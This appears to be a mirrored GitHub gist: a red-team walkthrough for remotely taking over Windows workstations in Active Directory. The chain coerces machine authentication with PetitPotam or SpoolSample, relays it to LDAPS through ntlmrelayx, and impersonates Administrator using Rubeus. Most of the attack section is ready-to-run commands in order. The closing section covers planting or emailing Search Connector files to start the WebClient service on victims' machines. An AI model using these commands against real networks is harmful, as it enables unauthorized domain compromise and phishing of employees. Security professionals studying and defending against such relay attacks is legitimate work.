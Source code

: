 From - https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb

## Overview

In the default configuration of Active Directory, it is possible to remotely take over Workstations (Windows 7/10/11) and possibly servers (if Desktop Experience is installed) when their WebClient service is running. This is accomplished in short by;

- Triggering machine authentication over HTTP via either MS-RPRN or MS-EFSRPC (as [demonstrated by @tifkin_](https://twitter.com/tifkin_/status/1418855927575302144?s=20)). This requires a set of credentials for the RPC call. 
- Relaying that machine authentication to LDAPS for configuring RBCD
- RBCD takeover

The caveat to this is that the WebClient service does not automatically start at boot. However, if the WebClient service has been triggered to start on a workstation (for example, via some SharePoint interactions), you can remotely take over that system. In addition, there are several ways to coerce the WebClient service to start remotely which I cover in a section below.

## RPC to RCE steps

1. To begin setup a relay to the LDAPS server for configuring RBCD. 

`ntlmrelayx.py -t ldaps://dc.windomain.local --delegate-access`
![NTLMRelayx.py](https://user-images.githubusercontent.com/46607768/126908959-4772e8ff-8ff5-4676-b7f9-39826cf5a1b3.png)

2. Attempt to trigger machine authentication over HTTP to your relay. This can be done via the publicly known RPC calls (and undoubtly various other unpublished ones)

`PetitPotam.exe logger@80/a.txt 192.168.38.104`
![PetitPotam](https://user-images.githubusercontent.com/46607768/126908997-a4c9ef39-dcf8-41a0-9278-292591804380.png)

OR

`SpoolSample.exe 192.168.38.104 logger@80/asdf`
![SpoolSample](https://user-images.githubusercontent.com/46607768/126909117-b09f50f2-f88a-48c6-9361-9237d4ecc104.png)

  Note for this critical step (remote machine authentication) to work;
  - The WebClient service needs to be running on the target (192.168.38.104 in this example). It may already be started on some workstations (worth trying to see if you get lucky) but if not see the next section. ***Update:*** [Lee Christensen has pointed out](https://twitter.com/tifkin_/status/1419806476353298442?s=20) that you can remotely enumerate this via the PowerShell command `Get-NTFile -Win32Path '\\target-ip\pipe\DAV RPC SERVICE'` which returns the named pipe if accessible. 
  - Your attacking host (`logger` in the case of my example) needs to be considered 'intranet' zoned by the target. One way to accomplish this is by using the netbios name of your attacking host (no periods). 
  - The URI syntax used above to coerce HTTP authentication (swapping in your attacking hostname).
  - LDAP signing/channel-binding must be disabled (this is the default).

3. If machine authentication is coerced, you should see a successful relay to LDAPS (assuming channel binding/signing is not enabled on the DC). This will result in the creation of a machine account for which RBCD is configured. If creating machine accounts is not possible, you can alternatively configure RBCD for a machine you have already compromised. 

![Successful Relay](https://user-images.githubusercontent.com/46607768/126909127-fb0711f0-f1eb-4e7c-9d14-0b92526aa87c.png)

4. From here, it's simply a matter of following the standard RBCD takeover methodology. I switched over to Rubeus, since my Linux host wasn't yet configured for Kerberos authentication but of course you can do this all from one host.

Calculate Password Hash:
`Rubeus.exe hash /password:NkQuBzsPk_AqKC6 /user:ZESLUQVX$ /domain:windomain.local`

Perform impersonation via S4U2Proxy:
`Rubeus.exe s4u /user:ZESLUQVX$ /rc4:D57DFD6E3BCDB1C2BF4D02CEE32F58C3 /impersonateuser:Administrator /msdsspn:cifs/WIN10.WINDOMAIN.LOCAL /ptt`

![S4U2proxy success](https://user-images.githubusercontent.com/46607768/126909145-793556e7-2960-4120-ac10-7133d4dfc9f2.png)

5. Enjoy your new workstation.

![Silver Ticket Use](https://user-images.githubusercontent.com/46607768/126909129-76c5858b-402e-4a1f-9cfe-402c59763e9a.png)

## Coercing the WebClient Service to Start

In my brief research/testing I found that a 'Search Connector' file could be used to start the WebClient service (as discussed/discovered by [@DTMSecurity](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/) and [@domchell](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)). If you place said file locally, it will start the service locally (allowing for LPE) or you can place said file on an SMB share you have write access to. When a domain user browses that SMB share and views the 'searchConnector-ms' file you planted, the WebClient service will start on their workstation, and you can proceed with step 2 above. Of course you can also attempt NTLM relay of the user authentication, but our discussion/goal here is simply to have the WebClient started to enable machine takeover.

**Before:**
![WebClient Stopped](https://user-images.githubusercontent.com/46607768/126909134-d745f149-1fde-4b5b-81f3-f3e206e7bf0f.png)

**Creating the SearchConnector-ms File:**
![SearchConnector](https://user-images.githubusercontent.com/46607768/126909138-0c91612f-6743-491b-9a88-cb88006b2b09.png)

**After:**

![WebClient Running](https://user-images.githubusercontent.com/46607768/126909124-1d6dfcaa-ffb1-4557-ba49-3d91acee990b.png)

You can set the HTTP target as your attacker host so you know which workstation has had the WebClient started.

As an alternative approach (albeit less stealthy), you can email your target a 'Search Connector' file. If a user attempts to open the file, the WebClient service will start on their workstation. 
